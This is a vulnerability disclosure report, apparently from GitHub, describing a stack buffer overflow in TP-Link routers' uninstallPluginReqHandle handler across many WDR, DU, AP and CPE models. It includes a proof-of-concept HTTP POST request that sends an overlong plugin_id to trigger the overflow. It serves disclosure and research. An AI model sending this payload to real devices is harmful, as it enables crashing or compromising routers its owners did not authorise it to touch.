

# TP-Link Router Vulnerability Report
TP-Link router have a stack overflow issue in `uninstallPluginReqHandle` function.

Local users could get remote code execution, this vulnerability currently affects latest WDR, DU, AP, CPE series, including WDR5610, WDR5620, WDR5630, WDR5640, WDR5650, WDR5660, WDR5820, WDR6300, WDR5610, WDR5670, WDR7300, WDR7620, WDR7660, WDR7661, WDR7650, WDR7651, DU2001, AP1907GC, AP1900GD, AP1902GP, AP1202GI, CPE200, CPE210, CPE500,etc. It affects the linux system and vxworks system. we believe there are much more models suffered from this vuln.

## Vulnerability Description

This vulnerability happen when `uninstallPluginReqHandle` receive a malicious string by using `jsonObjectGetString` from `HTTP POST data`. 

1. The malicious string is provided by attackers and the length of malicious string is pretty long. 
2. Due to snprintf will truncate fixed length, the corresponding plugin could be found and pass the check of `modelRead`. (The corresponding plugin is installed by attackers in advance.) 
3. Finally, the malicious string will copy to stack by `strcpy` and lead to a stack buffer overflow to execute arbitrary code.



## PoC

```
POST /stok=hOqNvk%2BC6ZC~YgP39LV49n0Lt)L7!cT7/ds HTTP/1.1
Host: 192.168.1.1
Content-Length: 569
Accept: application/json, text/javascript, */*; q=0.01
DNT: 1
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/json; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

{"plugin_config":{"uninstall_plugin":{"plugin_id":"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"}},"method":"do"}

```

## Acknowledgment

Credit to [@G6](https://github.com/GANGE666), [@Yu3H0](https://github.com/Yu3H0/), [@Pyro](https://github.com/Le0nn) from Shanghai Jiao Tong University.